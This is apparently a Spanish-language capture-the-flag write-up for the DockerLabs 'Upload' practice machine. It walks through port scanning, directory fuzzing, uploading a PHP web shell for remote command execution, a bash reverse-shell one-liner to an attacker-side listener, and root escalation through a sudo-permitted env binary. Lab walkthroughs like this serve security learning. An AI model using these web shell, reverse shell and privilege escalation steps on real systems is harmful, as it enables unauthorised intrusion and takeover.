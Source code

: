 # [Upload](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con `bash auto_deploy.sh upload.tar` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con `ping -c 1 172.17.0.2`<br>
`-c 1` ⮞ solo lo repite una vez
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dcfa4972-3c0f-4869-a4e9-c3f61e9f0a32)
<br>

Ahora vamos con el reconocimiento de nmap `nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk) <br>
<br>

Podemos ver los resultados en el archivo grepeable haciendo `cat allPorts`, observamos tan solo está abierto el puerto **80**.
<br>

![alt text](image.png)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con un panel el cual nos permite subir un archivo.
<br>

![alt text](image-1.png)

<br>

Lo que debemos hacer ahora es ver si podemos el directorio donde se estarían subiendo los archivos. Para ello haremos un fuzzing gracias a gobuster con el siguiente comando: `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2 -x txt,sql,py,js,php,html` y nos reportará lo siguiente:
<br>

![alt text](image-2.png)

<br>

Listo, hemos encontrado el directorio `/uploads` en el cual se estarían subiendo los archivos a través del panel de `Upload File`. Por lo que podríamos hacer ahora es ver si podemos subir un archivo `cmd.php` el cual nos permita la Remote Code Execution (RCE), el contenido del archivo sería el siguiente:
<br>

![alt text](image-3.png)

<br>

Probamos a subir el archivo `cmd.php`, y nos dice lo siguiente:
<br>

![alt text](image-4.png)

<br>

Por lo cual habríamos logrado la Ejecución Remota de Comandos, nos dirigimos al directorio `/uploads` y observamos que se ha subido el archivo `cmd.php`:
<br>

![alt text](image-5.png)

<br>

Y ahora pasándole como parámetro a `cmd` el comando que queremos ejecutar en este caso `id`:
<br>

![alt text](image-6.png)

<br>

Por lo que ahora nos mandaríamos una [revshell](https://www.revshells.com/). En primer lugar, nos ponemos en escucha en un puerto poniendo en la terminal lo siguiente `nc -nlvp 443`, y después escribiendo lo siguiente en el buscador `http://172.17.0.2/uploads/cmd.php?cmd=bash -c'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'`, recibiríamos la revshell: 
<br>

![alt text](image-7.png)

<br>
<br>

## Escala de Privilegios

Comprobamos que hemos podido ingresar a la Máquina Víctima como **www-data** para comprobarlo hacemos `whoami`.
<br>

![alt text](image-8.png)

<br>

Si ejecutamos `sudo -l` podemos ver que no podemos correr `/usr/bin/env` como `root` sin proporcionar contraseña.<br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo<br>

![alt text](image-9.png)

<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en env, y nos encontramos con lo siguiente `sudo env /bin/sh'`.
<br>

A continuación probaremos a ejecutar dicho comando adaptándolo que sería `sudo -u root /usr/bin/env /bin/bash`.
<br>

![alt text](image-10.png)
<br>

Y listo ya seríamos root!!
